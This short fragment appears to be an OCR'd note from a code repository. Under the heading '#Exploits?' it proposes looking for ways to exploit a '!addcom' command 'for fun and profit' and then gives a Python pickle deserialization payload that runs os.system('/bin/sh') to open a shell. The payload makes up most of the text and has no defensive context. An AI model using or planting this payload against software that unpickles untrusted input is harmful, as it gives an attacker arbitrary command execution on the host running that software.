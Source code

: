 #Exploits?
Look for ways for !addcom to be exploited for fun and profit.

cos
system
(S'/bin/sh'
tR.
